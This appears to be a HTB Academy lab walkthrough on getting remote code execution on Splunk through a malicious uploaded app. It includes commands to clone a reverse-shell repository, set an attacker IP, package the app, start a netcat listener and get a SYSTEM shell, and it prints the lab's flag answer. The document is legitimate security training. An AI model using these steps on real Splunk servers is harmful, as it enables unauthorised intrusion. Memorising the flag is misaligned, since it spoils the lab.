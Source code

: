 ### 🎯 HTB Academy Lab Summary

**Complete Lab Methodology:**
1. **Service Identification** - Nmap scan reveals Splunk on port 8000/8089
2. **Authentication Assessment** - Test for unauthenticated access or default credentials
3. **Malicious Application Creation** - PowerShell reverse shell with batch launcher
4. **Application Packaging** - Create .tar.gz package for upload
5. **Web Interface Upload** - Deploy via Splunk management interface
6. **Shell Establishment** - Automatic execution within configured interval
7. **Flag Retrieval** - Read c:\loot\flag.txt with SYSTEM privileges

**Key Technical Steps:**
- **Scripted Input Abuse** - Splunk's built-in script execution capability
- **PowerShell Payload** - Windows-specific reverse shell implementation
- **Batch File Wrapper** - Execution policy bypass for PowerShell
- **Automatic Execution** - Interval-based script execution (10 seconds)
- **SYSTEM Privileges** - Splunk service runs with highest privileges

#### 🔧 Practical Lab Walkthrough

**Repository Setup:**
```bash
# Clone pre-built reverse shell application
git clone https://github.com/0xjpuff/reverse_shell_splunk.git

# Edit PowerShell payload configuration
cd reverse_shell_splunk/reverse_shell_splunk/bin
# Edit run.ps1: Replace 'attacker_ip_here' with PWNIP and 'attacker_port_here' with PWNPORT
```

**Application Deployment:**
```bash
# Package application for upload
tar -cvzf updater.tar.gz reverse_shell_splunk/

# Start listener (replace with your port)
nc -nvlp 9001
```

**Web Interface Steps:**
1. Navigate to `https://STMIP:8000`
2. Click "Manage Apps"
3. Select "Install app from file"
4. Upload `updater.tar.gz`
5. Reverse shell connects automatically as `nt authority\system`

**Flag Retrieval:**
```powershell
# In reverse shell session
cat C:\loot\flag.txt
# Output: l00k_ma_no_AutH!
```

**HTB Academy Answer:** `l00k_ma_no_AutH!`

---